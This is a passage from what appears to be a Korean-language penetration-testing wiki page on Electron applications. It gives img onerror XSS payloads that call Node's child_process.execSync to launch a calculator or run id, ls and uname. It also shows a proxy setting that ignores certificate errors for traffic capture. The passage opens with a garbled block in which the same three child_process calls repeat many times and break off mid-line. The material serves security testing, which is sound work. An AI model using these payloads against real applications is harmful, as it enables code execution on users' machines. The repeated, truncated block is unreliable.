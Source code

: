```plaintext
  - `require('child_process').execFileSync('COMMAND', {stdio: 'inherit'})`
  - `require('child_process').exec('COMMAND', {stdio: 'inherit'})`
  - `require('child_process').execFile('COMMAND', {stdio: 'inherit'})`
  - `require('child_process').execFileSync('COMMAND', {stdio: 'inherit'})`
  - `require('child_process').exec('COMMAND', {stdio: 'inherit'})`
  - `require('child_process').execFile('COMMAND', {stdio: 'inherit'})`
  - `require('child_process').execFileSync('COMMAND', {stdio: 'inherit'})`
  - `require('child_process').exec('COMMAND', {stdio: 'inherit'})`
  - `require('child_process').execFile('COMMAND', {stdio: 'inherit'})`
  - `require('child_process').execFileSync('COMMAND', {stdio: 'inherit'})`
  - `require('child_process').exec('COMMAND', {stdio: 'inherit'})`
  - `require('child_process').execFile('COMMAND', {stdio: 'inherit'})`
  - `require('child_process').execFileSync('COMMAND', {stdio: 'inherit'})`
  - `require('child_process').exec('COMMAND', {stdio: 'inherit'})`
  - `require('child_process').execFile('COMMAND', {stdio: 'inherit'})`
  - `require('child_process').execFileSync('COMMAND', {stdio: 'inherit'})`
  - `require('child_process').exec('COMMAND', {stdio: 'inherit'})`
  - `require('child_process').execFile('COMMAND', {stdio: 'inherit'})`
  - `require('child_process').execFileSync('COMMAND', {stdio: 'inherit'})`
  - `require('child_process').exec('COMMAND', {stdio: 'inherit'})`
  - `require('child_process').execFile('COMMAND', {stdio: 'inherit'})`
  - `require('child_process').execFileSync('COMMAND', {stdio: 'inherit'})`
  - `require('child_process').exec('COMMAND',
```html
Example Payloads (Windows):
<img src=x onerror="alert(require('child_process').execSync('calc').toString());">

Example Payloads (Linux & MacOS):
<img src=x onerror="alert(require('child_process').execSync('gnome-calculator').toString());">
<img src=x onerror="alert(require('child_process').execSync('/System/Applications/Calculator.app/Contents/MacOS/Calculator').toString());">
<img src=x onerror="alert(require('child_process').execSync('id').toString());">
<img src=x onerror="alert(require('child_process').execSync('ls -l').toString());">
<img src=x onerror="alert(require('child_process').execSync('uname -a').toString());">
```
### 트래픽 캡처

start-main 설정을 수정하여 프록시 사용을 추가합니다. 다음과 같이 프록시를 사용할 수 있습니다:
```javascript
"start-main": "electron ./dist/main/main.js --proxy-server=127.0.0.1:8080 --ignore-certificateerrors",
```
## Electron 로컬 코드 삽입

Electron 앱을 로컬에서 실행할 수 있다면 임의의 JavaScript 코드를 실행할 수 있습니다. 다음에서 확인하세요:

{% content-ref url="../../../macos-hardening/macos-security-and-privilege-escalation/macos-proces-abuse/macos-electron-applications-injection.md" %}
[macos-electron-applications-injection.md](../../../macos-hardening/macos-security-and-privilege-escalation/macos-proces-abuse/macos-electron-applications-injection.md)
{% endcontent-ref %}
